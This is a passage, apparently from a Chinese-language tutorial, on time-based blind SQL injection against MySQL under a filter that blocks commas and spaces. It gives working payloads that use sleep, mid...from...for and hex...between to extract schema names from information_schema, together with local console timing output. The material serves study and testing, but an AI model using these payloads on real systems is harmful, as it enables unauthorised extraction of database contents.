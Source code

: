 `select id,info from table3 limit 1 offset 0`

`select id,info from table3 limit 1 offset 1`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202151427591.png)

>假设逗号跟空格(包括替换字符)都不允许出现,同时目标不报错不回显

可以利用之前提到的裸sleep注入

`select user,host,file_priv from mysql.user where user='root'&&(sleep((select ascii(mid(group_concat(schema_name)from(1)for(1)))from(information_schema.schemata))>100))#'`

`select user,host,file_priv from mysql.user where user='root'&&(sleep((select ascii(mid(group_concat(schema_name)from(2)for(1)))from(information_schema.schemata))>100))#'`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202151402289.png)

---

`select user,host,file_priv from mysql.user where user='root'&&(sleep((select(hex(group_concat(schema_name)))from(information_schema.schemata))between'0'and'G'))#'`

`select user,host,file_priv from mysql.user where user='root'&&(sleep((select(hex(group_concat(schema_name)))from(information_schema.schemata))between'6'and'G'))#'`

`select user,host,file_priv from mysql.user where user='root'&&(sleep((select(hex(group_concat(schema_name)))from(information_schema.schemata))between'7'and'G'))#'`

```
mysql root@localhost:(none)> select user,host,file_priv from mysql.user where user='root'&&(sleep((select(hex(group_concat(schema_name)))from(information_schema.schemata))between'0'and'G'))#'
+------+------+-----------+
| user | host | file_priv |
+------+------+-----------+
0 rows in set
Time: 2.011s
mysql root@localhost:(none)> select user,host,file_priv from mysql.user where user='root'&&(sleep((select(hex(group_concat(schema_name)))from(information_schema.schemata))between'6'and'G'))#'
+------+------+-----------+
| user | host | file_priv |
+------+------+-----------+
0 rows in set
Time: 2.013s
mysql root@localhost:(none)> select user,host,file_priv from mysql.user where user='root'&&(sleep((select(hex(group_concat(schema_name)))from(information_schema.schemata))between'7'and'G'))#'
+------+------+-----------+
| user | host | file_priv |
+------+------+-----------+
0 rows in set
Time: 0.009s
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202132120052.png)

`select user,host,file_priv from mysql.user where user='root'&&(sleep((select(hex(group_concat(schema_name)))from(information_schema.schemata))between'696E666E'and'696E666G'))#'`
